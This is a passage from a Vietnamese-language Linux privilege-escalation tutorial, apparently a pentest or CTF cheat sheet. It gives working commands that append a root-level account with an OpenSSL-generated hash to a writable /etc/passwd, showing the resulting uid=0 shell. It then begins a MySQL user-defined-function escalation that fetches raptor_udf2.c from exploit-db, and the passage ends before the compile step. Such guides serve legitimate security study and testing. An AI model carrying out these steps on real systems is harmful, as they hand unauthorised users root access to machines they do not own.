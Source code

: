 Ngoài ra còn nhiều trò khác tại [đây](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) và [đây](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)

# 7. /etc/passwd với OpenSSL

Trong vài trường hợp, file `/etc/passwd` được set quyền khá vớ vẩn như dưới:

```console
$ ls -l /etc/passwd
-rw-r--r-- 1 user root 1.2K Jun  9 10:22 /etc/passwd
```

Có thể thấy `user` có thể edit cái file này, ta có thể add thêm 1 user (ví dụ `user1`:`toor`) với quyền root bằng OpenSSL như sau:

```console
$ openssl passwd -1 -salt user1 toor
$1$user1$ZKmj13YYdAml8T8Cwi/j9/
```

Đưa vào `/etc/passwd` với format sau:

`<username>:<chuỗi lấy ở trên>:0:0::/root:/bin/bash`

```console
$ echo 'user1:$1$user1$ZKmj13YYdAml8T8Cwi/j9/:0:0::/root:/bin/bash' >> /etc/passwd
```

Giờ có thể sử dụng `su` hoặc `ssh`:

```console
$ su user1
# id
uid=0(user1) gid=0(root) groups=0(root)
```

# 8. User Defined Function in MySQL

Trong trường hợp chúng ta truy cập được vào root của MySQL, hoặc một user MySQL nào đó có quyền đọc database 'mysql', có thể thử:

```console
MySQL [(none)]> use mysql
```

```console
MySQL [mysql]> show variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.001 sec)
```

Nếu kết quả trả về như trên, ta có thể PrivEsc bằng UDF.
Tải file `raptor_udf2.c` từ [đây](https://www.exploit-db.com/exploits/1518) và compile:
